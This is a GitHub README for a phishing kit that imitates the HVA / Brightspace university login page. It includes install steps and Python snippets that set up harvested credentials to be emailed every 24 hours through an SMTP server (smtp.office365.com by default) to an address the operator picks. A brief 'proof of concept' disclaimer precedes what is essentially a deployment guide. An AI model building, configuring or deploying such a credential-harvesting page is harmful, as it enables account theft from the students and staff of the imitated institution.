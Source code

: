 # HVA / Brightspace Login phishing page

This phishing page is a proof of concept and should not be used for any illegal activity!

The phishing page works on desktop and mobile. Every 24 hours it will send a email with the harvested credentials to  a email of your liking.

This was made with [Tailwind](https://tailwindcss.com/) for the front-end and [Flask](https://flask.palletsprojects.com/en/2.2.x/) for the back-end.


## Installation

Clone this repository.

Then use the package manager [pip](https://pip.pypa.io/en/stable/) to install packages.

```bash
pip install -r requirements.txt
```

## Setup
Open app.py

change YOUR_SECRET_KEY to a secret key of your liking.

```python
app = Flask(__name__)
app.config['SECRET_KEY'] = 'YOUR_SECRET_KEY'
```
Change FROM_EMAIL to the email you are going to send then mail from.
Change TO_EMAIL to the email you are going to send the email to.

```python
    email = EmailMessage()
    email['Subject'] = f'information {datetime.datetime.now()}'
    email['From'] = 'FROM_EMAIL'
    email['To'] = 'TO_EMAIL'
```

Change FROM_EMAIL to the email you are going to send then mail from.

Change FROM_EMAIL_PASSWORD to the email password you are going to send the email from. Make sure the password you provided is compatible with the [SMTP servers](https://support.leapwork.com/s/article/HowcanIgetmySMTPserverPortusernamepassword633070924e681) from your email provider!

```python
    with smtplib.SMTP("smtp.office365.com", 587) as s:
        s.starttls()
        s.login('FROM_EMAIL', 'FROM_EMAIL_PASSWORD')
        s.send_message(email)
```

Change smtp.office365.com to the SMTP server of your provider, if your email provider is Office365 then you can skip this stap.
Change 587 to the port of the SMTP server the email provider uses.
Big ones: [Microsoft](https://support.microsoft.com/nl-nl/office/pop-imap-en-smtp-instellingen-8361e398-8af4-4e97-b147-6c6c4ac95353) , [Gmail](https://support.google.com/a/answer/176600?hl) and [Yahoo](https://help.yahoo.com/kb/SLN4724.html?guccounter=1&guce_referrer=aHR0cHM6Ly93d3cuZ29vZ2xlLmNvbS8&guce_referrer_sig=AQAAADrjXz1-m11zrZhIx972CRNXarnhPdnhwhb85biWlHoDK_LTW9LTFNnj4zCxcvZzG0NTwWgTJOGD67JVD1jcXtVi1udPhmZia8U5Aqud5CVQxVaFRz2ZwbLbR8l5fMSoYJSXFV4NBSnk8z2pubhMMWBtSs1mXrzKIJAjjePa9_FL).

Ones everthing is done close and save app.py
then click one the LAUNCH.bat and see for your self!


## Contributing

Pull requests are welcome. For major changes, please open an issue first
to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License

[MIT](https://choosealicense.com/licenses/mit/)